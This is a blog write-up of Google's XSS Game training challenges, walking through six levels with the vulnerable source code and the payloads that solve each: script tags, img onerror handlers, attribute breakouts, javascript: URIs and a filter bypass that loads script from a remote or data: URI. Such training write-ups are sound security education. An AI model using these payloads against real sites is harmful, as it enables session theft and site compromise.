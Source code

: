 ```yaml
---
layout:     post
title:      "Google XSS Games"
date:       2018-09-23 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Web Security"
---
```


Today we're playing with a little different challenge, series of XSS challenges from Google hosted [here](https://xss-game.appspot.com). Give it a go, before reading this write up!

### Level 1: Hello, world of XSS

Firstly, we navigate to the [challenge website](https://xss-game.appspot.com/level1). 

![Level One Overview](/img/xss-game/level1-overview.png){:class="img-responsive center-block"}

By entering a simple `<script>alert(1)</script>`, we get a working XSS attack. 

![Level One XSS](/img/xss-game/level1-xss.png){:class="img-responsive center-block"}

But why is that? Let's take a look at the source code. 

{% highlight python %}
page_header = """
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level1">
    <img src="/static/logos/level1.png">
      <div>
"""
 
page_footer = """
    </div>
  </body>
</html>
"""
 
main_page_markup = """
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..."
    onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
"""
 
class MainPage(webapp.RequestHandler):
 
  def render_string(self, s):
    self.response.out.write(s)
 
  def get(self):
    # Disable the reflected XSS filter for demonstration purposes
    self.response.headers.add_header("X-XSS-Protection", "0")
 
    if not self.request.get('query'):
      # Show main search page
      self.render_string(page_header + main_page_markup + page_footer)
    else:
      query = self.request.get('query', '[empty]')
       
      # Our search engine broke, we found no results :-(
      message = "Sorry, no results were found for <b>" + query + "</b>."
      message += " <a href='?'>Try again</a>."
 
      # Display the results page
      self.render_string(page_header + message + page_footer)
     
    return
 
application = webapp.WSGIApplication([ ('.*', MainPage), ], debug=False)
{% endhighlight %}

Basically, whatever we enter in a query will be inserted into the webpage. This allows us to enter any malicious code we want. 

### Level 2: Persistence is key

Next challenge is a little bit different, we get some chat application. 

![Level Two Overview](/img/xss-game/level2-overview.png){:class="img-responsive center-block"}

This time we can't simply insert `<script>alert(1)</script>`, as in the sent message nothing will be shown. That's because inserting HTML content in the DOM using `innerHTML` won't run the script.

But another simple attack will be to use `<img>` tag and `onerror` atrribute, just enter an invalid path to the image and script from `onerror` will execute. 

Just like this - `<img src=1 onerror=alert(1)>`. 

![Level Two XSS](/img/xss-game/level2-xss.png){:class="img-responsive center-block"}

### Level 3: That sinking feeling...

This time we get a simple gallery. 

![Level Three Overview](/img/xss-game/level3-overview.png){:class="img-responsive center-block"}

We can modify an image that we want to see by clicking on the buttons, or by observing an URL `https://xss-game.appspot.com/level3/frame#3`. Each image has different number, but only three first will produce an valid image. 

Viewing the source code of the challenge, we can see this script. 

{% highlight javascript %}
    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);

        window.location.hash = num;

        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }

        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }

      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }

      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
{% endhighlight %}

And there is potential for XSS, in line `html += "<img src='/static/level3/cloud" + num + ".jpg' />";`, just our `num` variable which is set from the value after the hash in the URL will have to look like this - `1'onerror='alert(1)//`. That way, after the execution our `html` variable will be `<img src='/static/level3/cloud1' onerror='alert(1)//.jpg' />`

![Level Three XSS](/img/xss-game/level3-xss.png){:class="img-responsive center-block"}

### Level 4: Context matters

In this challenge we get a timer that will pop an alert after a specified number of seconds we enter. 

![Level Four Overview](/img/xss-game/level4-overview.png){:class="img-responsive center-block"}

Let's take a look at the source code, just at the waiting screen. 

{% highlight html %}
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />

    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('3');" />
    <br>
    <div id="message">Your timer will execute in 3 seconds.</div>
  </body>
</html>
{% endhighlight %}

After small analysis, we can see a possible attack vector in line `onload="startTimer('3');"`, where `3` is the number of seconds we entered. If we put something like this `1');alert('1`, we could possibly put the XSS in the webpage. 

But after trying that, in the source code we can see that anything after the `;` character was omitted `onload="startTimer('1&#39;)');"`. After a little bit of research, I've found that URL encoding the character where `; => %3B` will solve this issue. 

In the end, our payload is `1')%3Balert('1`. 

![Level Four XSS](/img/xss-game/level4-xss.png){:class="img-responsive center-block"}

### Level 5: Breaking protocol

This time we have a `Groove Reader` application, with a `Sign Up` link. 

![Level Five Overview](/img/xss-game/level5-overview.png){:class="img-responsive center-block"}

After clicking the link, we are presented with a field to enter our email and another submit link. Viewing the source code gives us nothing usefull at first sight. 

{% highlight html %}
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>

  <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">

    <br><br>
    <a href="confirm">Next >></a>
  </body>
</html>
{% endhighlight %}

But after connecting a few dots, the URL `signup?next=confirm` will change the value of `next href`. Just as we change it to `test`, `signup?next=test` our `href` value changes `<a href="test">Next >></a>`. That way we can craft a simple payload - just put `javascript:alert(1)%3B` as the next paramter in the URL just like this `signupp?next=javascript:alert(1)%3B`. 

![Level Five XSS](/img/xss-game/level5-xss.png){:class="img-responsive center-block"}

### Level 6: Follow the 🐇

This time we want to execute Javascript from the remote resource, bypassing the filter from the source. 

![Level Six Overview](/img/xss-game/level6-overview.png){:class="img-responsive center-block"}

Firstly, let's take a look at the filter. 

{% highlight html %}
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />

    <script>
    function setInnerText(element, value) {
      if (element.innerText) {
        element.innerText = value;
      } else {
        element.textContent = value;
      }
    }

    function includeGadget(url) {
      var scriptEl = document.createElement('script');

      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }

      // Load this awesome gadget
      scriptEl.src = url;

      // Show log messages
      scriptEl.onload = function() { 
        setInnerText(document.getElementById("log"),  
          "Loaded gadget from " + url);
      }
      scriptEl.onerror = function() { 
        setInnerText(document.getElementById("log"),  
          "Couldn't load gadget from " + url);
      }

      document.head.appendChild(scriptEl);
    }

    // Take the value after # and use it as the gadget filename.
    function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }

    includeGadget(getGadgetName());

    // Extra code so that we can communicate with the parent page
    window.addEventListener("message", function(event){
      if (event.source == parent) {
        includeGadget(getGadgetName());
      }
    }, false);

    </script>
  </head>

  <body id="level6">
    <img src="/static/logos/level6.png">
    <img id="cube" src="/static/level6_cube.png">
    <div id="log">Loading gadget...</div>
  </body>
</html>
{% endhighlight %}

As we can see in the line `if (url.match(/^https?:\/\//)) {`, we cannot input anything matching the `https` string. But, there is a catch, we can easily do it by entering `Http` as the protocol. 

In order to exploit, host a remote file containing `alert(1)` (easily done with Pastebin), and in the URL enter `level6/frame#Htts://pastebin.com/raw/******`.

Or even easier, using the data URI, just like this `data:text/javascript,alert(1)`. That way we do not even have to create any remote files

![Level Six XSS](/img/xss-game/level6-xss.png){:class="img-responsive center-block"}
